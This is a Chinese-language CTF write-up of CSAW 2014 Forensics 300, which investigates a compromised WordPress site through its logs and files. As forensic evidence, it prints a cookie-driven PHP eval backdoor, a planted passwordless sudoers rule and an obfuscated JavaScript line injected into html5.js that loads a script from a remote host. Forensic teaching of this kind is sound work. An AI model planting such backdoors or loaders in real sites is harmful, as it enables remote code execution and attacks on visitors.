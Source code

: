 ```yaml
---
layout: post
title: "CSAW CTF 2014 Forensics 300 Fluffy No More Write-up"
date: 2014-09-24 21:15:06 +0800
comments: true
categories: [ctf, CSAW, Jeopardy, Forensics]
---
```

{% img /images/writeup/csaw2014_taskboard.png %}

最近實在太忙了,請容許我的 Defcon 下集繼續拖稿, 趁剛打完 CTF 記憶猶新先寫write-upXD

CSAW CTF 是給大學生打的CTF, 只允許純大學生的隊伍參加決賽,冠軍獎金不少,吸引了不少強者參加.
一年之中最適合初學者參加的CTF非他莫屬, 題目平易近人,就算只會google也可以拿到幾百分.

本次 Write-up 選擇 Foensics 300 , 除了題目設計的很像真實發生的資安事件外, 最重要的是我們在最後一步卡了四五個小時, 必須好好記錄下來避免再次犯錯. 


<!--  more -->

{% img /images/writeup/csaw2014_f300.png %}
[題目備份](https://github.com/ctfs/write-ups/tree/master/csaw-ctf-2014/fluffy-no-more)

大意就是有個人的網站被駭了,許多該網站的使用者受到影響,站長已經將 伺服器的設定檔(/etc),網站(web root directory), 日誌 (/var/log) , 資料庫 (sql)
全部備分出來,請你協助調查發生了什麼事情.

做這種事件調查時, 幾個資訊要先釐清 發生的大概時間, 攻擊來源, 影響範圍等. 遺憾的是真的發生事件時這些重要資訊大概都沒有,跟題目一樣(汗) 

因此我從 http access log 看起 , 濾掉 404  , css , js 的 query . 再檢查一下 useragent 會發現有幾個大量使用 scanner 的 IP , 但都不是我們要找的目標.

此時atdog直接去翻網頁目錄, 看到是wordpress就直接往 plugin / upload 找,直接就找到後門.

{% img /images/writeup/csaw2014_f300_backdoor.png %}

事後我們猜測這邊應該是要先去看wordpress用的plugin,會看到 wysija  然後google wysija exploit會找到 [任意檔案上傳漏洞](http://www.exploit-db.com/exploits/33991/) , 從攻擊payload裡面可以抓出特徵,再去log裡面找到攻擊者IP及上傳的後門

{% img /images/writeup/csaw2014_f300_exploit.png %}

回歸正題, backdoor 被混淆過,簡單把最後一行的最外層變數改成echo就可以拿到最後執行的php command

```php
$c='count';
$a=$_COOKIE;
if(reset($a)=='ha' && $c($a)>3){
      $k='ckit';echo '<'.$k.'>';
      eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));
      echo '</'.$k.'>';
}
```
由於駭客很賤的把命令藏在cookie裡, 所以無法從log還原出下的指令, 只能根據時間去檢查系統設定檔修改時間. 很幸運的我們有整個/etc, 有正確的時間點我們很快找出被駭客動過的檔案, 用IP去grep log也會看到很多嘗試登入系統的動作.
```
#cat etc/sudoers.d/casper
ubuntu  ALL=(ALL) NOPASSWD: ALL
```

看到這邊再回頭看auth.log就會發現那一系列的sudo command有部分應該是hacker下的, 其中一行vi html5.js特別可疑
```
#cat auth.log  | grep vi
Sep 17 17:17:51 ubuntu sudo:   ubuntu : TTY=unknown ; PWD=/ ; USER=ubuntu ; COMMAND=/usr/bin/gsettings get org.gnome.nautilus.desktop volumes-visible
Sep 17 17:17:59 ubuntu sudo:   ubuntu : TTY=unknown ; PWD=/ ; USER=ubuntu ; COMMAND=/usr/bin/gsettings set org.gnome.nautilus.desktop volumes-visible false
Sep 17 17:18:08 ubuntu gnome-keyring-daemon[4914]: couldn't set environment variable in session: Setenv interface is only available during the Initialization phase
Sep 17 17:22:19 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/apt-get install lamp-server^ vim
Sep 17 17:24:52 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/vi /etc/hosts
Sep 17 19:20:09 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/vi /var/www/html/wp-content/themes/twentythirteen/js/html5.js
```
去將原版twentythirteen的html5.js抓下來比對會發現多一行:

```
if(g)return a.createDocumentFragment();for(var b=b||i(a),c=b.frag.cloneNode(),d=0,e=m(),h=e.length;d<h;d++)c.createElement(e[d]);return c}};l.html5=e;q(f)})(this,document); var g="ti";var c="HTML Tags";var f=". li colgroup br src datalist script option .";f = f.split(" ");c="";k="/";m=f[6];for(var i=0;i<f.length;i++){c+=f[i].length.toString();}v=f[0];x="\'ht";b=f[4];f=2541*6-35+46+12-15269;c+=f.toString();f=(56+31+68*65+41-548)/4000-1;c+=f.toString();f="";c=c.split("");var w=0;u="s";for(var i=0;i<c.length;i++){if(((i==3||i==6)&&w!=2)||((i==8)&&w==2)){f+=String.fromCharCode(46);w++;}f+=c[i];} i=k+"anal"; document.write("<"+m+" "+b+"="+x+"tp:"+k+k+f+i+"y"+g+"c"+u+v+"j"+u+"\'>\</"+m+"\>");
```

直接丟進瀏覽器的開發者工具執行,會被導到一個 [PDF](http://128.238.66.100/announcement.pdf)  然後我們用pdfdump, hexedit, 010edit都看不出個所以然,回頭又繼續翻log. 找各種蛛絲馬跡.

浪費了幾個小時,還一度以為右下角的imgurl是線索,要去imgurl找出作圖的作者.最後發現是 pdfdump -raw的output不會decode,用pdfdump -b -i 8 就直接看到javascript跟key了...


CTF結束後看別人的 [Write-up](https://github.com/ctfs/write-ups/tree/master/csaw-ctf-2014/fluffy-no-more) , [PDF streaming dump](http://sandsprite.com/blogs/index.php?uid=7&pid=57) 比 [dumppdf](http://www.unixuser.org/~euske/python/pdfminer/)更強大,要學起來.
